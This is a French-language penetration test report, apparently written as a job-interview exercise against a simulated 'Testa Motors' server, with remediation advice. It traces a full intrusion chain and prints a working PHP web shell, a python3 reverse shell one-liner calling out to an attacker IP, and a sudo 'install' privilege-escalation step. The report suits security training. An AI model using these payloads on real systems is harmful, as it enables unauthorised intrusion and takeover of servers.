









# Rapport d'Audit de Pentest

## Table des Matières

1. [Introduction](#introduction)
2. [Objectifs de l'Audit](#objectifs-de-laudit)
3. [Méthodologie](#méthodologie)
4. [Résumé Exécutif](#résumé-exécutif)
5. [Résultats Détaillés](#résultats-détaillés)
    - [Vulnérabilités Critiques](#vulnérabilités-critiques)
    - [Vulnérabilités Élevées](#vulnérabilités-élevées)
    - [Vulnérabilités Moyennes](#vulnérabilités-moyennes)
    - [Vulnérabilités Faibles](#vulnérabilités-faibles)
6. [Conclusion](#conclusion)
7. [Annexes](#annexes)

 
\pagebreak 

## Introduction

Cet audit de pentest a été réalisé dans le cadre d'un entretien d'embauche pour le poste de pentesteur chez Orange Cyber Defense. L'objectif principal est de démontrer mes compétences en matière de sécurité informatique et d'évaluation des vulnérabilités. Cet audit est une simulation pratique visant à identifier et évaluer les vulnérabilités au sein d'une infrastructure prédéfinie. Les résultats obtenus permettront de mettre en évidence mes capacités à mener des tests de pénétration et à fournir des recommandations de sécurité pertinentes.

## Objectifs de l'Audit

- Identifier et évaluer les vulnérabilités de sécurité présentes dans l'infrastructure.
- Fournir des recommandations pour remédier aux vulnérabilités identifiées.

## Résumé Rapide

1. **Scan Nmap :**
    - Port 80 (HTTP) et Port 443 (HTTPS) ouverts.
    - Utilisation de `Nmap` pour obtenir des informations sur les services actifs.

2. **Énumération de Répertoires :**
    - Utilisation de `Gobuster` pour découvrir des répertoires cachés comme `/admin/`, `/database/`, et `/info.php`.

3. **Exploitation des Vulnérabilités SQL :**
    - Découverte d'une injection SQL sur le paramètre `id` des pages admin.
    - Utilisation de `SQLmap` pour automatiser l'exploitation de l'injection SQL.

4. **Accès aux Informations Sensibles :**
    - Récupération du dossier `.git` contenant des informations sensibles et des secrets d'utilisateur.
    - Analyse des commits pour extraire les identifiants et mots de passe.

5. **Craquage des Mots de Passe :**
    - Extraction et craquage du hachage MD5 des mots de passe avec `John the Ripper`.

6. **Accès SSH :**
    - Utilisation des clés SSH trouvées pour accéder au serveur via SSH.
    - Accès réussi avec les identifiants craqués.

7. **Escalade de Privilèges :**
    - Exploitation des permissions `sudo` pour obtenir un accès root.
    - Utilisation de `linPEAS` pour identifier des vecteurs d'escalade de privilèges.

## Méthodologie

### Scénario d'Exploitation

#### Compromission de la Machine 35.180.243.34

##### Reconnaissance Active

Nous avons commencé par un scan `Nmap` sur l'IP de la machine. Celui-ci nous a permis de constater que les ports 80 (Web HTTP), 8080 (Web HTTP) et 22 (SSH) étaient ouverts. Dans son résultat, nous voyons également qu'il trouve un dossier .git.

Nous avons donc immédiatement lancé une énumération de dossiers sur le serveur web avec `gobuster`.

##### Énumération de Répertoire

Nous avons en même temps lancé un scan `nuclei` qui nous a permis de voir une potentielle injection SQL.

Nous avons alors utilisé SQLmap pour avoir la preuve que celle-ci était bien présente.

##### Exploitation des Vulnérabilités SQL

Le résultat de gobuster nous confirme la présence d'un dossier .git. Nous avons donc utilisé l'outil `git-dumper` pour récupérer ce dossier en local sur notre machine ainsi que le code source de la page web.

##### Accès Dossier Sensible

En regardant dans le code source de la page web, nous pouvons trouver plusieurs informations intéressantes, telles que le type de hash utilisé sur l'application web (MD5).

Ainsi que des secrets de l'administrateur (nom d'utilisateur, mot de passe).

##### Craquage de Mot de Passe

Après avoir récupéré ces informations, nous pouvons lancer l'outil `John the Ripper` pour essayer de brute force le mot de passe.

##### Connexion Administrateur sur le Site Web

Une fois le mot de passe récupéré, nous pouvons nous connecter en tant qu'administrateur sur l'interface web.

En regardant les pages accessibles sur le site, nous avons rapidement aperçu dans "system setting" la possibilité d'uploads de fichiers.

Nous avons donc essayé d'envoyer un fichier .php qui contenait la fonction `phpinfo()`. Cette fonction permet à l'origine de voir les informations de configuration php. Dans notre cas, elle nous permet de vérifier que notre fichier envoyé est bien interprété par le serveur.

Une fois cela vérifié, nous devons trouver le chemin vers le fichier uploadé sur le site. Dans l'onglet Cars, nous pouvons voir apparaître l'image d'une voiture. Nous avons donc copié l'URL de l'image et remplacé le nom de l'image par le nom de notre fichier.

Nous avons également remarqué dans le code source php du site que le nom du fichier était horodaté.

Avec toutes ces informations, nous pouvons tenter d'accéder au fichier envoyé.

##### Exploitation des Uploads de Fichier

Après avoir effectué cette vérification, nous pouvons injecter un fichier php malveillant qui nous permet d'envoyer des commandes au serveur.

J'ai commencé par vérifier la présence d'utilitaires me permettant d'avoir un reverse shell. Nous avons aperçu grâce à la commande `which` que l'utilitaire python3 était sur le serveur. Nous avons alors utilisé ce payload pour initier notre reverse shell.

##### Récupération d'une Connexion Utilisateur

Une fois mon shell récupéré en tant que www-data, nous avons lancé le script `linpeas` qui permet de faire ressortir les potentielles failles d'escalade de privilèges.

Celui-ci nous a permis de découvrir un dossier compressé intéressant dans le home de l'utilisateur testa. Ce dossier est `.ssh-backup.tar.gz`.

##### Récupération du Dossier sur ma Machine

Pour voir son contenu, nous avons dû le télécharger car nous n'avions pas les droits nécessaires pour le décompresser.

Une fois en local, nous avons pu voir son contenu et avons trouvé la clé RSA de l'utilisateur testa, ce qui nous a permis de nous connecter en ssh sur le serveur.

##### Passage Super Utilisateur

Une fois connectés avec l'utilisateur testa, nous avons relancé le script `linpeas`. Celui-ci nous a remonté plusieurs informations intéressantes.

Pour commencer, celui-ci nous remonte la potentielle utilisation de CVE pour passer root sur le serveur.

[Alt text](img/linpeasuser.png "CVE linpeas")

Nous n'avons pas suivi cette piste, car il nous a remonté une autre faille.

Le binaire sudo était mal configuré et nous permettait de lancer le binaire /usr/bin/install sans mot de passe et avec les droits superutilisateur.

Pour l'exploiter, il nous faut créer un fichier contenant un script exécutant un reverse shell.

Nous devons ensuite utiliser le binaire install

`
LFILE=file_to_change
TF=$(mktemp)
sudo install -m 6777 $LFILE $TF
`

### Outils et Techniques Utilisés

- **Nmap** : Pour scanner les ports et services ouverts.
- **gobuster** : Pour découvrir des répertoires et fichiers cachés.
- **SQLmap** : Pour détecter et exploiter les injections SQL.
- **John the R

ipper** : Pour craquer les mots de passe hachés.
- **SSH** : Pour accéder au serveur.
- **linPEAS** : Pour identifier des vecteurs d'escalade de privilèges.
- **Burp Suite** : Pour analyser les applications web.

---

 
\pagebreak 

## Résumé Exécutif

Cet audit a permis de découvrir plusieurs vulnérabilités critiques au sein de l'infrastructure Testa Motors. Les découvertes incluent :

| Critique  | Moyenne  | Faible  |
|---|---|---|
| Injection SQL  || Hachage MD5 des mots de passe  |
| Exposition de l'Historique du Code Source |  | Configuration PHP exposée  |

Les recommandations clés comprennent la mise en œuvre de requêtes préparées pour prévenir les injections SQL, la sécurisation des répertoires sensibles, et la mise à jour des pratiques de hachage des mots de passe.

## Résultats Détaillés

### Vulnérabilités Critiques

#### Injection SQL

**Description :** Nous avons trouvé une injection SQL sur le paramètre `id` des pages admin.

**Preuve :**

**Remédiation :** Utiliser les PDO et faire des requêtes préparées.

#### Exposition de l'Historique du Code Source

**Description :** Nous avons trouvé dans l'application web le dossier `.git` qui contient l'ensemble des commits GitHub du code source. Ce dossier contenait des secrets utilisateurs.

**Preuve :**

**Remédiation :** Ne pas déployer le dossier `.git` dans les fichiers accessibles en production.

### Vulnérabilités Moyennes

#### Hachage MD5 des Mots de Passe

**Description :** Les mots de passe des utilisateurs sont stockés en utilisant l'algorithme de hachage faible MD5.

**Preuve :**

**Remédiation :** Remplacer MD5 par des algorithmes plus robustes comme bcrypt ou Argon2.

### Vulnérabilités Faibles

#### Configuration PHP Exposée

**Description :** L'accès à `info.php` a exposé des informations détaillées sur la configuration PHP (version PHP 7.4.30).

**Preuve :**

**Remédiation :** Désactiver les pages de divulgation d'informations PHP.

## Conclusion

Cet audit a révélé plusieurs vulnérabilités critiques et moyennes dans l'application Testa Motors. Les principales recommandations incluent la mise en œuvre de meilleures pratiques de sécurité pour les requêtes SQL, la protection des répertoires sensibles et la mise à jour des algorithmes de hachage des mots de passe. En suivant ces recommandations, Testa Motors peut améliorer significativement sa posture de sécurité et protéger ses données sensibles.

## Annexes

### Logs et Scripts Utilisés

**Exemple de Log Nmap :**

**Payload PHP**

Le code malveillant dans le fichier php

`
<?php echo "Shell";system($_GET['cmd']); ?>
`

**Reverse Shell**

La commande pour récupérer mon reverse shell avec python3

`
export RHOST="172.17.0.1";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
`

**Exemple de Script pour Craquer un Mot de Passe :**

`
john hashAdmin.txt --format=Raw-MD5
`

**Création Serveur Web Python3**

Commande pour monter un serveur web avec python3

`
python3 -m http.server 9090
`

---

En suivant ces recommandations, Testa Motors peut considérablement améliorer sa posture de sécurité et se protéger contre les menaces potentielles. Pour toute question ou besoin de clarification, n'hésitez pas à me contacter.

Auteur : **Hallez Arthur**

Contact : **arthur.hallez.59930@gmail.com**

Fait le **07/06/2024**
